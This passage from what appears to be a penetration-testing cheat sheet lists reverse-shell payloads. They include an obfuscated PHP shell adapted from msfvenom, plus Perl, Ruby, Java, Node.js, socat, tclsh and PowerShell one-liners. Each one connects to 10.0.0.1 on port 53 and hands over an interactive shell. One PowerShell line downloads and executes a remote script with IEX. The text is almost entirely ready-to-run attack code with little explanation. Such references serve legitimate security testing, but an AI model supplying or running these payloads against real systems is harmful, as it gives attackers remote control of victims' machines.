$sock,$input);}if(in_array($pipes[2],$read_a)){if($debug)printit("STDERR:READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR:$input");fwrite($sock,$input);}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){if(!$daemon){print("$string\n");}}?>

The following is a one-liner modified from msfvenom's php/reverse_php script. It tends to not be that reliable.

.. code-block:: php

    <?php @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$dis=@ini_get('disable_functions');if(!empty($dis)){$dis=preg_replace('/[, ]+/',',',$dis);$dis=explode(',',$dis);$dis=array_map('trim',$dis);}else{$dis=array();}$ipaddr='10.0.0.1';$port=53;if(!function_exists('VmlTkWqAWqzABk')){function VmlTkWqAWqzABk($c){global $dis;if(FALSE!==strpos(strtolower(PHP_OS),'win')){$c=$c."2>&1\n";}$bjxQcQ='is_callable';$avuz='in_array';if($bjxQcQ('exec')and!$avuz('exec',$dis)){$o=array();exec($c,$o);$o=join(chr(10),$o).chr(10);}elseif($bjxQcQ('passthru')and!$avuz('passthru',$dis)){ob_start();passthru($c);$o=ob_get_contents();ob_end_clean();}elseif($bjxQcQ('popen')and!$avuz('popen',$dis)){$fp=popen($c,'r');$o=NULL;if(is_resource($fp)){while(!feof($fp)){$o.=fread($fp,1024);}}@pclose($fp);}elseif($bjxQcQ('system')and!$avuz('system',$dis)){ob_start();system($c);$o=ob_get_contents();ob_end_clean();}elseif($bjxQcQ('proc_open')and!$avuz('proc_open',$dis)){$handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);$o=NULL;while(!feof($pipes[1])){$o.=fread($pipes[1],1024);}@proc_close($handle);}elseif($bjxQcQ('shell_exec')and!$avuz('shell_exec',$dis)){$o=shell_exec($c);}else{$o=0;}return $o;}}$nofuncs='no-exec-functions';if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){$s=@fsockopen("tcp://10.0.0.1",$port);while($c=fread($s,2048)){$out='';if(substr($c,0,3)=='cd '){chdir(substr($c,3,-1));}else if(substr($c,0,4)=='quit'||substr($c,0,4)=='exit'){break;}else{$out=VmlTkWqAWqzABk(substr($c,0,-1));if($out===false){fwrite($s,$nofuncs);break;}}fwrite($s,$out);}fclose($s);}else{$s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);@socket_connect($s,$ipaddr,$port);@socket_write($s,"socket_create");while($c=@socket_read($s,2048)){$out='';if(substr($c,0,3)=='cd '){chdir(substr($c,3,-1));}else if(substr($c,0,4)=='quit'||substr($c,0,4)=='exit'){break;}else{$out=VmlTkWqAWqzABk(substr($c,0,-1));if($out===false){@socket_write($s,$nofuncs);break;}}@socket_write($s,$out,strlen($out));}@socket_close($s);}

Perl
----

.. code-block:: perl

    perl -e 'use Socket;$i="10.0.0.1";$p=53;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

.. code-block:: perl

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Windows Only:

.. code-block:: perl

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Ruby
----

.. code-block:: ruby

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",53).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

.. code-block:: ruby

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","53");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Windows Only:

.. code-block:: ruby

    ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","53");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Java
----

.. code-block:: java

    r = Runtime.getRuntime();
    p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/10.0.0.1/53;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
    p.waitFor();

Node.js
-------

.. code-block:: javascript

    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(53, "10.0.0.1", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();

socat
-----

Must use socat as the listener:

.. code-block:: none

    socat file:`tty`,raw,echo=0 tcp-listen:53

.. code-block:: none

    socat tcp-connect:10.0.0.1:53 exec:"sh -li",pty,stderr,setsid,sigint,sane


tclsh
-----

.. code-block:: tcl

    #!/usr/bin/tclsh
    set s [socket 10.0.0.1 53];
    while {42} {
    puts -nonewline $s "shell>";
    flush $s;
    gets $s c;
    set e "exec $c";
    if {![catch {set r [eval $e]} err]} {
    puts $s $r;
    }
    flush $s;
    }
    close $s;

.. code-block:: bash

    echo 'set s [socket 10.0.0.1 53];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh


Powershell
----------

.. code-block:: powershell

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

.. code-block:: powershell

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

.. code-block:: powershell

    powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
